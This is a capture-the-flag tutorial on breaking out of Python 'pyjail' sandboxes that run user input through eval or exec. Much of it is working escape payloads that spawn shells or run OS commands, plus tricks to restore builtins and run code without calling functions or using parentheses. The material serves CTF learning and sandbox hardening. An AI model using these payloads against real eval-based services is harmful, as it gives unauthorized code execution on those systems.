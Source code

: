Pyjail! What is pyjail? A pyjail challenge is a challenge where the user is given the opportunity to run their input in a python `eval` or `exec` call. 
That seems great right? Free RCE!
Well, there's a catch. There's always a catch. 
What exactly that catch is varies from challenge to challenge, but typically there are 
function whitelists or blacklists, character whitelists or blacklists, removal of the builtins, a combination of these or an a different trick.
In this section we document some ways around common pyjail problems.

## General tips and tricks
In general, the goal is to get a flag. Typically this takes the form of requiring RCE and reading a flag.txt filein the same directory as the challenge. 
Some useful ways to get some RCE:
* Spawn a shell 
  * `__import__("pty").spawn("/bin/bash")`
* Run commands
  * `__import__("os").system("ls")`

Other times you can run from a limited characterset, see if you can run `help()` or `breakpoint()`, 
these will give you a new shell with which to run things unbound by the original character limit.

## No access to builtins
The most common problem faced in a pyjail challenge is the removal of builtins. 
This means you can't use normal functions like `print` or `open`.
To get access back to your builtins, you can go digging through the classes you have available. 
In python you can get to the classes available with `''.__class__.__base__.__subclasses__()`.
This works because the string object in python, defined with `''`, has a class, which is walked up a level with `__base__` to get the object class, and finally you can get the classes that inherit from that object class with `.__subclasses__`.
Note that this works with pretty much any starting class, including an empty dictionary, empty tuple, or int.

From there, you can revore builtins like so:

```
__builtins__= [x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__
```

## Not allowed to call functions
When you aren't allowed to explicitly run functions, there are still some solutions.
For example, class decorators can be used to run functions without actually running them. For example:
```@eval
@'__import__("os").system("sh")'.format
class X:pass
```
Is equivalent to:
```
X = '__import__("os").system("sh")'.format(X)  # just gives you the string
X = eval(X)  # runs the string
```
Or if you don't have parentheses:
```
@exec
@input
class X:
    pass
 ```
 Is equivalent to:
 ```
class X:
    pass
X = input(X)
X = exec(X)
```
Another trick to not using parentheses is to use python's built in helper classes. 
For example `__add__` is called when you add something to a class and `__sub__` is called when you subtract from it.
There are many many of these to choose from based on what you are allowed to do.
So this code will run ls:
```
class X:
  __add__ = eval
 
x = X()
x + '__import__("os").system("ls")'
```
Of course, the astute among you will notice that by calling the constructor `X()` we have called a function and will be blocked.
You would be correct.
So how do we construct a class without calling a constructor? 
One option is to use meta classes to access these attributes without calling a constructor. This looks like:
```
class Metaclass(type):
    __getitem__ = exec # So Sub[string] will execute exec(string)
    
class Sub(metaclass=Metaclass): 
    pass 

Sub['import os; os.system("sh")']
```
Another option is to make your custom class an exception, raise it, and catch it. 
This gives you an instance of your class without actually calling the constructor.
```
class X(Exception):
  __add__ = exec
  
try:
  raise X
except X as x:
  x + 'import os; os.system("sh")'
```



